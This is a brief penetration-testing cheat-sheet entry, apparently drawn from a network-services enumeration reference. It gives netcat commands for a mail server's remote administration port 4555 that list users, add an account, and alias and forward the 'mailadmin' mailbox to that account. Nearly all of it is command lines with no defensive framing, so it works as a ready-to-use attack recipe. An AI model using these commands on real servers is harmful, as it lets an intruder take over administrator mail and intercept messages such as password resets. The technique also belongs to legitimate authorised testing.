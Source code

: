 Forwarding Admin Emails 
```bash
# Connection through netcat (can test for creds)
nc -nv <IP> 4555

# Get commands
HELP

# Get users (hopefully an admin?)
listusers

# Add user
adduser $user $pass

# Set an alias for our user
setalias mailadmin $user

# Set mail forwarding
setforwarding mailadmin $user@email.local
```

## References

[haax.fr](https://cheatsheet.haax.fr/network/services-enumeration/4555_rsip/)